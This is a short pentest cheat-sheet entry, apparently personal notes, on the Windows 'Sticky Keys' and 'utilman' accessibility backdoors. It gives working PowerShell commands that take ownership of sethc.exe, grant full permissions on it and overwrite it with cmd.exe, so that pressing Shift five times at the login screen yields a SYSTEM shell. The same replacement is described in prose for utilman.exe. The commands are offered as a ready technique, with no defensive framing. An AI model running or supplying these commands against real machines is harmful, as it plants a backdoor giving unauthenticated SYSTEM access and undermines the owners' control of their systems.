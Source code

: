 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Sticky Keys
- When we press shift 5 times, the program located at `C:\Windows\System32\sethc.exe` is executed.
- We can chage this binary to `cmd.exe`, we can get a SYSTEM level shell even from the login screen.
- We need to have proper permission to change this binary
```powershell
# Take ownership of the binary
takeown /f C:\Windows\System32\sethc.exe
# Give Administrator full permission to the binary
icacls C:\Windows\System32\sethc.exe /grant Administrator:F
# copy the binary
copy C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```
- Now we can get SYSTEM shell if we press shift 5 times anywhere.

### utilman
- Simiar to `C:\Windows\System32\sethc.exe` , when we click on `easeofaccess` button on login screen, `C:\Windows\System32\utilman.exe` is executed.
- We can change this binary after taking ownership of this binary.